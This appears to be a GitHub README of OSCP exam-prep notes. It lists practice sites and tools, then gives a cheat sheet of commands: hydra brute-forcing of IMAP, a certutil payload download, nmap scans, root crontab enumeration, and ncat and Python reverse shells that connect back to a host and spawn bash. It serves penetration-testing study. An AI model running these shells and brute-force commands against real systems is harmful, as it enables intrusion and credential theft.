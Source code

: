## Useful Websites
[offical exam guide](https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide) <br>
[offical exam report](https://www.offensive-security.com/pwk-online/PWK-Example-Report-v1.pdf) <br>
[pentest.ws](https://pentest.ws): note taking <br>
[Burp Suite](https://portswigger.net/burp): tool for exploring web security. [Configure browser with Burp Suite](https://www.youtube.com/results?search_query=Configure+with+Burp+Suite) <br>
[OWASP juice box](https://owasp.org/www-project-juice-shop/): OWASP security trainings<br>
[hack this site]<br>
[over the wire]<br>
[pwnable.kr/xyz]<br>
[hack the box]<br>
[cybrary]<br>
[google gruyeye]<br>
[game of hacks]<br>
[bWAPP]<br>
[Webgoat]<br>
[hashcat](https://hashcat.net/wiki/doku.php?id=hashcat): password recovery tool<br>
[feroxbuster](https://github.com/epi052/feroxbuster): powerful forced browsing tool (gobuster、dirb)<br>
[AutoRecon](https://github.com/Tib3rius/AutoRecon): multi-threaded network reconnaissance tool which performs automated enumeration of services<br>
[explainshell](https://explainshell.com/): explain command-line<br>
[SecLists](https://github.com/danielmiessler/SecLists): It's a collection of multiple types of lists used during security assessments, collected in one place

## :warning: Exam Restrictions

[linPEAS](https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/): Understanding the tools/scripts you use in a Pentest

## :hammer_and_wrench: Commands

### :open_file_folder: hydra

#### IMAP
```
hydra -L usernames.txt -P wordlists.txt -s 143 -f 192.168.0.1 imap
```
### :open_file_folder: cewl

```
cewl -d 4 https://192.168.0.1 -w /tmp/wordlists.txt
```

### :open_file_folder: download

#### windows

```
certutil -f -urlcache http://192.168.49.220:8000//veyon-service.exe veyon-service.exe
```
### :open_file_folder: nmap

```
nmap -T5 192.168.10.0/24
```

```
nmap -Pn -p- -sC -sV -T4 192.168.201.159 
```
### :open_file_folder: reverse shell

ncat 
```
ncat -e /bin/bash 192.168.10.58 8080
```

python3(file)
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.130",80)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

python(file)
```
#!/usr/bin/env python
import os
import sys
try: 
        os.system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.112\",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'") 
except: 
        print 'ERROR...' 
sys.exit(0) 
```
### :open_file_folder: Cron jobs

```
crontab -l
```
```
ls -alh /etc/cron.* /etc/at*
```
```
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

> :open_file_folder: unprivileged Linux process snooping: ![pspy](https://github.com/DominicBreuker/pspy)
